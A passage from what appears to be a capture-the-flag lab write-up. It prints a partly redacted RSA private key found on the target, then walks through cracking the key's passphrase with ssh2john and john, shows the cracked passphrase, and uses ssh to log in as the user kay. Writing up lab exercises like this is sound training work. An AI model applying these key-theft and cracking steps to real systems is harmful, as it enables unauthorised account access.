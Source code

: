 ```
VqVjsot+CzF7mbWm5nFsTPPlOnndC6JmrUEUjeIbLzBcW6bX5s+b95eFeceWMmVe
B0WhqnPtDtVtg3sFdjxp0hgGXqK4bAMBnM4chFcK7RpvCRjsKyWYVEDJMYvc87Z0
ysvOpVn9WnFOUdON+U4pYP6PmNU4Zd2QekNIWYEXZIZMyypuGCFdA0SARf6/kKwG
oHOACCK3ihAQKKbO+SflgXBaHXb6k0ocMQAWIOxYJunPKN8bzzlQLJs1JrZXibhl
VaPeV7X25NaUyu5u4bgtFhb/f8aBKbel4XlWR+4HxbotpJx6RVByEPZ/kViOq3S1
GpwHSRZon320xA4hOPkcG66JDyHlS6B328uViI6Da6frYiOnA4TEjJTPO5RpcSEK
QKIg65gICbpcWj1U4I9mEHZeHc0r2lyufZbnfYUr0qCVo8+mS8X75seeoNz8auQL
4DI4IXITq5saCHP4y/ntmz1A3Q0FNjZXAqdFK/hTAdhMQ5diGXnNw3tbmD8wGveG
VfNSaExXeZA39jOgm3VboN6cAXpz124Kj0bEwzxCBzWKi0CPHFLYuMoDeLqP/NIk
oSXloJc8aZemIl5RAH5gDCLT4k67wei9j/JQ6zLUT0vSmLono1IiFdsMO4nUnyJ3
z+3XTDtZoUl5NiY4JjCPLhTNNjAlqnpcOaqad7gV3RD/asml2L2kB0UT8PrTtt+S
baXKPFH0dHmownGmDatJP+eMrc6S896+HAXvcvPxlKNtI7+jsNTwuPBCNtSFvo19
l9+xxd55YTVo1Y8RMwjopzx7h8oRt7U+Y9N/BVtbt+XzmYLnu+3qOq4W2qOynM2P
nZjVPpeh+8DBoucB5bfXsiSkNxNYsCED4lspxUE4uMS3yXBpZ/44SyY8KEzrAzaI
fn2nnjwQ1U2FaJwNtMN5OIshONDEABf9Ilaq46LSGpMRahNNXwzozh+/LGFQmGjI
I/zN/2KspUeW/5mqWwvFiK8QU38m7M+mli5ZX76snfJE9suva3ehHP2AeN5hWDMw
X+CuDSIXPo10RDX+OmmoExMQn5xc3LVtZ1RKNqono7fA21CzuCmXI2j/LtmYwZEL
OScgwNTLqpB6SfLDj5cFA5cdZLaXL1t7XDRzWggSnCt+6CxszEndyUOlri9EZ8XX
            [CUTTED OUT Part of the key]
-----END RSA PRIVATE KEY-----
```
We can use scp to copy this file, or just copy it manually, I'm going to choose the second option.  
So We've pasted the content of RSA KEY on our host machine. Remember to ```chmod +600 id_rsa``` on this file because that's the requirement for id_rsa to be parsed by ssh - it can't have write permission by any user and can be only viewed by the owner!  

When we try to ssh with that key we see that:
```ssh -i id_rsa kay@10.10.201.220```
```
Enter passphrase for key 'id_rsa':
```
it requires a passphrase (let's say its 2-Factor-Authentication for logging with rsa key).  
### Brute-forcing rsa-key passphrase
We can brute force it too, with ```john```

But first, we need to extract  the hash from this id_rsa key, with ssh2john we use:  
```python ssh2john.py id_rsa > hash.txt ```

```
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)
```
So the password for the user kay is **beeswax**, let's login to it then again  
### Logging to the kay user
```ssh -i id_rsa kay@10.10.201.220```
And then input the password.

Bam! We're in! Now looking at the pass.bak in his home directory we'll see the final password.  

**The box is completed! :)**
